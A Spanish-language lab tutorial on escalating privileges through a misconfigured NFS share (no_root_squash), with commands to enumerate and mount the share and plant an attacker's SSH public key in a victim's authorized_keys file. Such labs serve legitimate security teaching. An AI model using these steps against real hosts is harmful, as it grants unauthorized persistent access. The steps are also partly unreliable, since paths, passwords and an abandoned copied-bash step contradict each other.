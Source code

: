 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Convertirse en root por una NFS mal configurada.
Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietaio de bash](../img/lab-04-D/202209101503.png)


Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101823.png)

El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```

![listado del home](../img/lab-30-D/202209101827.png)

El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.

![ssh a la victima](../img/lab-30-D/202209101846.png)





